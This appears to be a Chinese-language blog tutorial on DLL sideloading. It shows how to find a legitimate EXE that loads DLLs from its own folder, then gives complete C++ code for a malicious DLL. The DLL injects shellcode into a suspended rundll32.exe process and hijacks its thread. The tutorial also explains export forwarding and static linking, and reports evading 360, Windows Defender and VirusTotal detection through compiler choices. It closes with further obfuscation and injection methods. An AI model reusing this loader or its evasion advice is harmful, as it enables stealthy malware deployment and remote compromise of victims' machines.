










# 白exe寻找

一个一个地找，可以用process monitor动态查找，也可以用dependencies静态查找，静态查找只能找到一小部分的 dll，要想找到所有 dll 必须依靠动态查找

如果用process monitor需要设置一些规则：

- Path contains dll（过滤出所有加载的dll文件）
- Result is NAME NOT FOUND（运行是没有找到dll）
- path begin with xxx（用你运行exe的目录）

这样就可以将exe放到一个新的空文件夹直接运行查看效果了

我这里找到一个就直接用静态展示了



这里找到一个加载当前目录dll的exe，也不是很大，运行效果就cmd闪烁一下

# 黑DLL编写

用Visual Stdio新建一个dll项目

dllmain.cpp代码：

```
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"
#include <iostream>
using namespace std;

unsigned char payload[] = "\xfc\xe8...";
unsigned int payload_len = sizeof payload - 1;

BOOL APIENTRY DllMain(HMODULE hModule,
  DWORD  ul_reason_for_call,
  LPVOID lpReserved
)
{
  switch (ul_reason_for_call)
  {
  case DLL_PROCESS_ATTACH: {
    char* v7A = (char*)VirtualAlloc(0, payload_len, 0x3000u, 0x40u);
    memcpy((void*)v7A, payload, payload_len);

    struct _PROCESS_INFORMATION ProcessInformation;
    struct _STARTUPINFOA StartupInfo;
    void* v24;
    CONTEXT Context;
    memset(&StartupInfo, 0, sizeof(StartupInfo));
    StartupInfo.cb = 68;
    BOOL result = CreateProcessA(0, (LPSTR)"rundll32.exe", 0, 0, 0, 0x44u, 0, 0, &StartupInfo, &ProcessInformation);
    if (result)
    {
      Context.ContextFlags = 65539;
      GetThreadContext(ProcessInformation.hThread, &Context);
      v24 = VirtualAllocEx(ProcessInformation.hProcess, 0, payload_len, 0x1000u, 0x40u);
      WriteProcessMemory(ProcessInformation.hProcess, v24, v7A, payload_len, NULL);
            // 32 位使用 Context.Eip = (DWORD_PTR)v24;
      Context.Rip = (DWORD_PTR)v24;
      SetThreadContext(ProcessInformation.hThread, &Context);
      ResumeThread(ProcessInformation.hThread);
      CloseHandle(ProcessInformation.hThread);
      result = CloseHandle(ProcessInformation.hProcess);
    }

    TerminateProcess(GetCurrentProcess(), 0);
  }

  case DLL_THREAD_ATTACH:
  case DLL_THREAD_DETACH:
  case DLL_PROCESS_DETACH:
    break;
  }
  return TRUE;
}
```

如果直接编译会出现问题，需要将dll的函数导出，用带aheadlib插件的dependencies可以快捷导出

这里需要到原本exe的目录下导出，才有具体的内容





查看导出的c文件，将这段文件复制到pch.cpp中

```
#pragma comment(linker,"/EXPORT:Handler=AL_Handler,@1")
#pragma comment(linker,"/EXPORT:RC=AL_RC,@2")
#pragma comment(linker,"/EXPORT:RCW=AL_RCW,@3")
```



写一个新的函数直接退出，将所有linker都链接到新函数上去



编译的时候需要静态编译，不然在其他没有对应库的电脑上运行也会报错



如果是Debug方式编译选择MTD，如果是Release方式编译选择MT

可以使用 Release 模式编译以避免调试符号

我debug编译的木马被360识别了，换做了release编译就没有报毒了



windows defender的静态查杀也没有问题



运行后迁移进程到rundll32.exe上线


正常的命令执行通信正常



而且还可以使用intel c++编译器，相比于vs默认的编译器，intel c++编译器编译的exe特征更少、报毒更低，在代码层面免杀时在VT上可以很轻松达到0查杀




如需进一步提升免杀效果，可尝试以下方式：

- 将 `init.txt` 内容进一步混淆（如 Base64 + XOR 双重编码）
- 加入垃圾代码、时间延迟、API 动态解析（`GetProcAddress`）等混淆策略
- 使用 `NtCreateThreadEx`、`QueueUserAPC` 等较冷门注入方式
- 用 `Reflective DLL Injection` 方式加载自身
- 用 `Manual Mapping` 注入自身模块

不过这种进程注入的方式还是很容易报毒的，可以去寻找那种静态编译的白exe，最好是在后台运行的，之前别朋友发了我一个动态编译的后台静默运行的exe，放在其他电脑上很容易发生dll缺失的情况


参考链接：

https://cloud.tencent.com/developer/article/2360981

